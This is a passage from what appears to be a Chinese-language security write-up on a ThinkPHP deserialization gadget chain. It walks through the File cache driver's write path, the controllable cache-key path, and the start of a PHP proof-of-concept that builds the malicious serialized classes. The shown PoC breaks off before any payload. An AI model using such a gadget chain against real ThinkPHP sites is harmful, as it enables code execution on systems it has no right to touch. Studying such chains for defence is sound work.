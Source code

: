 ```
        }
    }

    $data = $this->serialize($value);

    if ($this->options['data_compress'] && function_exists('gzcompress')) {
        //数据压缩
        $data = gzcompress($data, 3);
    }

    $data   = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
    $result = file_put_contents($filename, $data);

    if ($result) {
        clearstatcache();
        return true;
    }

    return false;
}
```

跟进getExpireTime

![image-20211104214142935](images/14.png)

发现没什么可用的

跟进getCacheKey

![image-20211104214216656](images/15.png)

这里其实就是为了查看进入该方法是否出现错误或者直接`return`了

所以这里`$this->options['hash_type']`不能为空

返回了一个字符拼接的值,`$this->options['path']`可控,又可以去调用上一条链子的`__toString`

## 漏洞复现

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave;
        public function __construct()
        {
            $this->autosave = false;
        }
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $expire;
        protected $key;
        public function __construct()
```